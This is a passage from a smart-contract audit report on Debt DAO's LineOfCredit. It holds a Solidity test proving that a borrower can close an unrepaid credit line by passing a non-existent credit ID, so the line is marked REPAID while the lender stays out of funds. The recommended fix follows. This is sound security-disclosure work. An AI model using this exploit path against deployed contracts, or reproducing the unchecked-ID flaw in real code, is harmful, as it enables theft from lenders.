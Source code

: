         emit CloseCreditPosition(id);
    
        return true;
    }

Proof of Concept:

    // contracts/tests/LineOfCredit.t.sol
    function testCloseWithoutRepaying_AUDIT() public {
        assertEq(supportedToken1.balanceOf(address(line)), 0, "Line balance should be 0");
        assertEq(supportedToken1.balanceOf(lender), mintAmount, "Lender should have initial mint balance");
          
        _addCredit(address(supportedToken1), 1 ether);
    
        bytes32 id = line.ids(0);
        assert(id != bytes32(0));
    
        assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether, "Lender should have initial balance less lent amount");
        
        hoax(borrower);
        line.borrow(id, 1 ether);
        assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether, "Borrower should have initial balance + loan");
        
        // The credit hasn't been repaid.
        // hoax(borrower);
        // line.depositAndRepay(1 ether);
        
        hoax(borrower);
        // Closing with a non-existent credit ID.
        line.close(bytes32(uint256(31337)));
    
        // The debt hasn't been repaid but the status is REPAID.
        assertEq(uint(line.status()), uint(LineLib.STATUS.REPAID));
    
        // Lender's balance is still reduced by the borrow amount.
        assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether);
    
        // Borrower's balance still includes the borrowed amount.
        assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether);
    }

### [](#recommended-mitigation-steps-3)Recommended Mitigation Steps

In the `close` function of `LineOfCredit`, consider ensuring that a credit with the user-supplied ID exists, before closing it.

**[kibagateaux (Debt DAO) confirmed](https://github.com/code-423n4/2022-11-debtdao-findings/issues/258)**

* * *

[](#h-05-borrower-can-craft-a-borrow-that-cannot-be-liquidated-even-by-arbiter-)[\[H-05\] Borrower can craft a borrow that cannot be liquidated, even by arbiter.](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
